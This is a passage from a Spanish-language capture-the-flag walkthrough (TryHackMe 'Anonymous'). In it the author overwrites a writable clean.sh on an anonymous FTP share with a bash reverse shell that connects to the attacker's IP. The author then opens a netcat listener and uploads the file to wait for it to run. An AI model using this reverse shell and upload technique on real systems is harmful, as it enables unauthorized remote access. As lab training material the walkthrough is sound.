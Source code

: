 Modificamos el contenido de <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">clean.sh</code>.

```shell
#!/bin/bash
bash -i >& /dev/tcp/<nuestra_IP>/4321 0>&1
```

Iniciamos un **netcat**

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Anonymous]
└─$ nc -lvnp 4321
```

Significado de las flags:

* `-l`&nbsp;: listen mode.
* `-v`&nbsp;: verbose.
* `-n`&nbsp;: solo IP numéricas, no DNS.
* `-p`&nbsp;: nro de puerto local.

Subimos nuestro fichero modificado al ftp

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Anonymous]
└─$ ftp 10.10.139.26
Connected to 10.10.139.26.
220 NamelessOne's FTP Server!
Name (10.10.139.26:ewan67): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||44503|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         3225 Aug 16 22:17 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||58560|)
150 Ok to send data.
100% |*************************************************************************************************************************|    55      274.03 KiB/s    00:00 ETA
226 Transfer complete.
55 bytes sent in 00:00 (0.73 KiB/s)
ftp> 
```

Y esperamos a que se ejecute .....
